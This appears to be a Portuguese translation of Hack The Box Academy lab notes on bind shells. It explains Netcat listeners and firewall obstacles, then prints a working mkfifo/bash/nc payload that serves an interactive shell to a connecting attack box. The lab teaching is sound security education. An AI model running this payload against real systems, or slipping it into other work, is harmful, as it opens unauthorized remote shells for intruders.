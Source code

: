 Em muitos casos, trabalharemos para estabelecer um shell em um sistema em uma rede local ou remota. Isso significa que buscaremos usar o aplicativo emulador de terminal em nossa caixa de ataque local para controlar o sistema remoto por meio de seu shell. Isso normalmente é feito usando um shell `Bind`&/or `Reverse`.

## O que é?

Com um bind shell, o `target`sistema inicia um listener e aguarda uma conexão do sistema de um pentester (caixa de ataque).

#### Exemplo de ligação
![[Pasted image 20240828092037.png]]

Como visto na imagem, nos conectaríamos diretamente com o `IP address`e `port`escutaríamos no alvo. Pode haver muitos desafios associados a obter um shell dessa forma. Aqui estão alguns a serem considerados:

- Teria que haver um ouvinte já iniciado no alvo.
- Se não houver nenhum ouvinte iniciado, precisaremos encontrar uma maneira de fazer isso acontecer.
- Os administradores normalmente configuram regras rígidas de firewall de entrada e NAT (com implementação de PAT) na borda da rede (voltada para o público), então precisaríamos estar na rede interna.
- Os firewalls do sistema operacional (no Windows e Linux) provavelmente bloquearão a maioria das conexões de entrada que não estejam associadas a aplicativos confiáveis ​​baseados em rede.

Firewalls de SO podem ser problemáticos ao estabelecer um shell, pois precisamos considerar endereços IP, portas e a ferramenta em uso para fazer nossa conexão funcionar com sucesso. No exemplo acima, o aplicativo usado para iniciar o listener é chamado [GNU Netcat](https://en.wikipedia.org/wiki/Netcat) .

`Netcat`( `nc`) é considerado nosso, `Swiss-Army Knife`pois pode funcionar em soquetes TCP, UDP e Unix. Ele é capaz de usar IPv4 e IPv6, abrir e ouvir em soquetes, operar como um proxy e até mesmo lidar com entrada e saída de texto. Usaríamos nc na caixa de ataque como nosso `client`, e o alvo seria o `server`.

Vamos entender isso mais profundamente praticando com o Netcat e estabelecendo uma conexão de shell de ligação com um host na mesma rede, sem restrições.

## Praticando com GNU Netcat

Uma vez conectado à caixa de destino com ssh, inicie um ouvinte Netcat:

#### No. 1: Servidor - Alvo iniciando o ouvinte Netcat
```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

Neste caso, o alvo será nosso servidor, e a caixa de ataque será nosso cliente. Assim que apertamos enter, o listener é iniciado e aguarda uma conexão do cliente.

De volta ao cliente (caixa de ataque), usaremos o nc para conectar ao ouvinte que iniciamos no servidor.

#### No. 2: Cliente - Caixa de ataque conectando ao alvo
```shell-session
NycolasES6@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Observe como estamos usando nc no cliente e no servidor. No lado do cliente, especificamos o endereço IP do servidor e a porta que configuramos para escutar ( `7777`). Assim que conectarmos com sucesso, podemos ver uma `succeeded!`mensagem no cliente, como mostrado acima, e uma `received!`mensagem no servidor, como visto abaixo.

#### No. 3: Servidor - Alvo recebendo conexão do cliente
```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!  
```

Saiba que este não é um shell propriamente dito. É apenas uma sessão TCP Netcat que estabelecemos. Podemos ver sua funcionalidade digitando uma mensagem simples no lado do cliente e visualizando-a recebida no lado do servidor.

#### No. 4: Cliente - Caixa de ataque enviando mensagem Olá Academia
```shell-session
NycolasES6@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Depois de digitar a mensagem e pressionar Enter, notamos que a mensagem foi recebida no lado do servidor.

#### No. 5: Servidor - Alvo recebendo mensagem Hello Academy
```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy 
```

## Estabelecendo um Bind Shell básico com Netcat

Agora vamos usar o Netcat para servir nosso shell para estabelecer um bind shell real.

No lado do servidor, precisaremos especificar que `directory`, `shell`, `listener`, trabalhe com alguns `pipelines`, e `input`& `output` `redirection`para garantir que um shell para o sistema seja servido quando o cliente tentar se conectar.

#### No. 1: Servidor - Vinculando um shell Bash à sessão TCP
```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Os comandos acima são considerados nossa carga útil, e entregamos essa carga útil manualmente. Notaremos que os comandos e códigos em nossas cargas úteis serão diferentes dependendo do sistema operacional host para o qual estamos entregando.

De volta ao cliente, use o Netcat para se conectar ao servidor agora que um shell no servidor está sendo servido.

#### No. 2: Cliente - Conectando ao bind shell no alvo
```shell-session
NycolasES6@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```


Em um cenário controlado, uma sessão de *bind shell* foi estabelecida com sucesso entre uma máquina de ataque e um sistema alvo. Esse exercício é importante para entender os conceitos básicos do *bind shell* e seu funcionamento sem a presença de medidas de segurança como firewalls e sistemas de detecção. No entanto, o *bind shell* é relativamente fácil de defender, pois a conexão é recebida como entrada, facilitando a detecção e bloqueio por firewalls. Para contornar essa limitação, o uso de um *reverse shell* é sugerido, tema que será discutido na próxima seção.













